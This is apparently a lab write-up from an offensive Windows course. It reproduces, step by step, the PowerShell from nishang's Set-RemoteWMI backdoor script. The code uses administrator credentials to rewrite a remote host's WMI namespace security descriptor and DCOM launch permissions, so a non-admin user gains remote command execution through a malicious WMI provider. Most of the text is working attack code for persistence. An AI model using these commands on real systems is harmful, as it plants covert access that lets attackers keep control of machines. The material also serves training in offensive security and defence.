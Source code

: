 ## Hands On 10: Security Descriptors

#### Use EvilNetConnection provider discussed earlier and modify Security Descriptor of its namespace to achieve command execution using a non-admin user
This solution walked through the Set-RemoteWMI script to better understand how it works and the commands being used to modify the security descriptors

- [EvilNetConnectionWMIProvider](https://github.com/jaredcatkinson/EvilNetConnectionWMIProvider)
- [Set-RemoteWMI](https://raw.githubusercontent.com/samratashok/nishang/master/Backdoors/Set-RemoteWMI.ps1)

##### user3 is an administrator on Win7x64 host.  Want to allow user2 execution privilege for everything under root\cimv2 namepsace on Win7x64
```
$SID = (New-Object System.Security.Principal.NTAccount("home.local\user2")).Translate([System.Security.Principal.SecurityIdentifier]).value
```

##### Create ACL to allow user2 execution privilege for everything under root\cimv2 namespace
```
$SDDL = "A;CI;CCDCLCSWRPWPRCWD;;;$SID"
$DCOMSDDL = "A;;CCDCLCSWRP;;;$SID"
```

##### Collect information from remote machine
```
$RegProvider = Get-WmiObject -Namespace root\default -Class StdRegProv -List -ComputerName win7x64 -Credential home.local\user3
$Security = Get-WmiObject -Namespace root\cimv2 -Class __SystemSecurity -List -ComputerName win7x64 -Credential home.local\user3
$Converter = Get-WmiObject -Namespace root\cimv2 -Class Win32_SecurityDescriptorHelper -List -ComputerName win7x64 -Credential home.local\user3
```

##### Create new SDDL for WMI namespace and DCOM.  Allow user2 remote execution 
```
$DCOM = $RegProvider.GetBinaryValue(2147483650,"Software\Microsoft\Ole","MachineLaunchRestriction").uValue
$binarySD = @($null)
$result = $Security.PSBase.InvokeMethod("GetSD",$binarySD)
$outsddl = $converter.BinarySDToSDDL($binarySD[0])
$outDCOMSDDL = $converter.BinarySDToSDDL($DCOM)
$newSDDL = $outsddl.SDDL += "(" + $SDDL + ")"
$newDCOMSDDL = $outDCOMSDDL.SDDL += "(" + $DCOMSDDL + ")"
$WMIbinarySD = $converter.SDDLToBinarySD($newSDDL)
$WMIconvertedPermissions = ,$WMIbinarySD.BinarySD
$DCOMbinarySD = $converter.SDDLToBinarySD($newDCOMSDDL)
$DCOMconvertedPermissions = ,$DCOMbinarySD.BinarySD
$result = $Security.PsBase.InvokeMethod("SetSD",$WMIconvertedPermissions)
$result = $RegProvider.SetBinaryValue(2147483650,"Software\Microsoft\Ole","MachineLaunchRestriction", $DCOMbinarySD.binarySD)
```

##### user2 should not have execution privileges for nampesaces under root\cimv2 namepsace on remote host Win7x64
```
Get-WMIObject Win32_NetConnection -Computer Win7x64 -Credential home.local\user2
```
